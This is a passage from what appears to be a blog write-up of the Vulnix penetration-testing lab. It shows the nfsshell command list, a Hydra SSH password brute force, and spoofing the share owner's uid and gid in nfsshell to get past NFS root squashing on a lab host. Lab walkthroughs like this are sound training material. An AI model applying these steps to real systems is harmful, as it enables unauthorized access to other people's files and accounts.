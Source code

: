 ``` 
nfs> help
host <host> - set remote host name
uid [<uid> [<secret-key>]] - set remote user id
gid [<gid>] - set remote group id
cd [<path>] - change remote working directory
lcd [<path>] - change local working directory
cat <filespec> - display remote file
ls [-l] <filespec> - list remote directory
get <filespec> - get remote files
df - file system information
rm <file> - delete remote file
ln <file1> <file2> - link file
mv <file1> <file2> - move file
mkdir <dir> - make remote directory
rmdir <dir> - remove remote directory
chmod <mode> <file> - change mode
chown <uid>[.<gid>] <file> -  change owner
put <local-file> [<remote-file>] - put file
mount [-upTU] [-P port] <path> - mount file system
umount - umount remote file system
umountall - umount all remote file systems
export - show all exported file systems
dump - show all remote mounted file systems
status - general status report
help - this help message
quit - its all in the name
bye - good bye
handle [<handle>] - get/set directory file handle
mknod <name> [b/c major minor] [p] - make device
```

From my reading about NFS and root squashing, it seems that knowing the uid of the share's owner would allow mounting the share as that user and bypassing the access denied errors that I got as root. Because the share is the home folder of the vulnix user, we need to know the uid for that particular user account. But we need local access to the machine to find that out. Well, we did get some usernames from the enumeration stage, so we probably have to attempt a bruteforce attack. From all the discovered usernames, I only kept the user and vulnix ones, because the rest were users for various services on the system. And then I ran Hydra with the recommended task number for SSH:

{% img center /images/pentest/vulnix-hydra.png 'hydra' 'letmein' %}

Hydra found the password for user pretty quickly. I logged in as user, but didn't find anything out of the ordinary. However, I was able to get the uid for the vulnix account:

``` 
user@vulnix:~$ id vulnix
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
```

I went back to nfsshell and made the changes:

``` 
nfs> host 192.168.217.142
Using a privileged port (1023)
Open 192.168.217.142 (192.168.217.142) TCP
nfs> uid 2008
nfs> gid 2008
nfs> status
User id      : 2008
Group id     : 2008
Remote host  : `192.168.217.142'
Transfer size: 0
```
